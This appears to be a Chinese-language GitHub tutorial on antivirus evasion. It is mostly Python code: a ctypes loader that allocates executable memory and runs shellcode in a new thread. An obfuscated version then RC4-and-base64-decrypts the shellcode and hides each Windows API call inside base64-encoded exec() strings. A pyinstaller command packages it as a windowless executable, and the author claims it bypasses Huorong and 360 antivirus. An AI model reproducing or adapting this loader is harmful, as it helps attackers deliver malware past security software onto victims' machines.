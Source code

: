```
10分钟快速了解免杀
```



```
首先了解下加载器的执行过程
申请内存
将shellcode写入内存
创建线程
执行线程()
```

```
这是一个普通的python加载器
import ctypes
shellcode=''
shellcode = bytearray(shellcode)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
 # 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr),buf,ctypes.c_int(len(shellcode)))
# 创建一个线程从shellcode防止位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

```
从加载器上手来进行免杀无非就是将shellcode进行混淆
shellcode混淆这里我们尝试rc4算法和base64算法结合

from Crypto.Cipher import ARC4 as rc4cipher
import base64,ctypes,codecs,time

def rc4_algorithm(encrypt_or_decrypt, data, key1):
    if encrypt_or_decrypt == "encrypt":
        key = bytes(key1, encoding='utf-8')
        enc = rc4cipher.new(key)
        res = enc.encrypt(data.encode('utf-8'))
        res=base64.b64encode(res)
        res = str(res,'utf8')
        return res
    elif encrypt_or_decrypt == "decrypt":
        data = base64.b64decode(data)
        key = bytes(key1, encoding='utf-8')
        enc = rc4cipher.new(key)
        res = enc.decrypt(data)
        res = str(res,'utf8')
        return res
key='haogepcbeizhua'
res='' //这里填写你的shellcode //shellcode为rc4加密后再次进行base64加密
shellcode=rc4_algorithm('decrypt', base64.b64decode(res), key).encode()
time.sleep(2)
shellcode = shellcode.strip()
shellcode = codecs.escape_decode(shellcode)[0]
shellcode = bytearray(shellcode)
time.sleep(2)
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
time.sleep(2)
#ptr=ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
exec(base64.b64decode('cHRyPWN0eXBlcy53aW5kbGwua2VybmVsMzIuVmlydHVhbEFsbG9jKGN0eXBlcy5jX2ludCgwKSxjdHlwZXMuY19pbnQobGVuKHNoZWxsY29kZSkpLGN0eXBlcy5jX2ludCgweDMwMDApLGN0eXBlcy5jX2ludCgweDQwKSk=').decode())
exec(base64.b64decode('YnVmID0gKGN0eXBlcy5jX2NoYXIgKiBsZW4oc2hlbGxjb2RlKSkuZnJvbV9idWZmZXIoc2hlbGxjb2RlKQ==').decode())
#buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
time.sleep(2)
exec(base64.b64decode('Y3R5cGVzLndpbmRsbC5rZXJuZWwzMi5SdGxNb3ZlTWVtb3J5KGN0eXBlcy5jX3VpbnQ2NChwdHIpLGJ1ZixjdHlwZXMuY19pbnQobGVuKHNoZWxsY29kZSkpKQ==').decode())
#ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr),buf,ctypes.c_int(len(shellcode)))
#handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
exec(base64.b64decode('aGFuZGxlID0gY3R5cGVzLndpbmRsbC5rZXJuZWwzMi5DcmVhdGVUaHJlYWQoY3R5cGVzLmNfaW50KDApLGN0eXBlcy5jX2ludCgwKSxjdHlwZXMuY191aW50NjQocHRyKSxjdHlwZXMuY19pbnQoMCksY3R5cGVzLmNfaW50KDApLGN0eXBlcy5wb2ludGVyKGN0eXBlcy5jX2ludCgwKSkp').decode())
#ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
exec(base64.b64decode('Y3R5cGVzLndpbmRsbC5rZXJuZWwzMi5XYWl0Rm9yU2luZ2xlT2JqZWN0KGN0eXBlcy5jX2ludChoYW5kbGUpLGN0eXBlcy5jX2ludCgtMSkp').decode())
```

上述代码原理就是将shellcode先rc4加密后base64加密

实际操作：

rc4加密

![image-20221117105938597](C:\Users\13401\AppData\Roaming\Typora\typora-user-images\image-20221117105938597.png)

base64加密

![image-20221117110054625](C:\Users\13401\AppData\Roaming\Typora\typora-user-images\image-20221117110054625.png)

填写混淆后的shellcode

![image-20221117110128551](C:\Users\13401\AppData\Roaming\Typora\typora-user-images\image-20221117110128551.png)

```
之后pyinstaller打包  pyinstaller.exe -F -w .\rc4+base64.py
```

测试结果

![image-20221117110458362](C:\Users\13401\AppData\Roaming\Typora\typora-user-images\image-20221117110458362.png)

![image-20221117110603787](C:\Users\13401\AppData\Roaming\Typora\typora-user-images\image-20221117110603787.png)

由于该脚本是今年3月写的没有后续继续混淆，混淆的不够深效果一般能过目前普遍的火绒和360

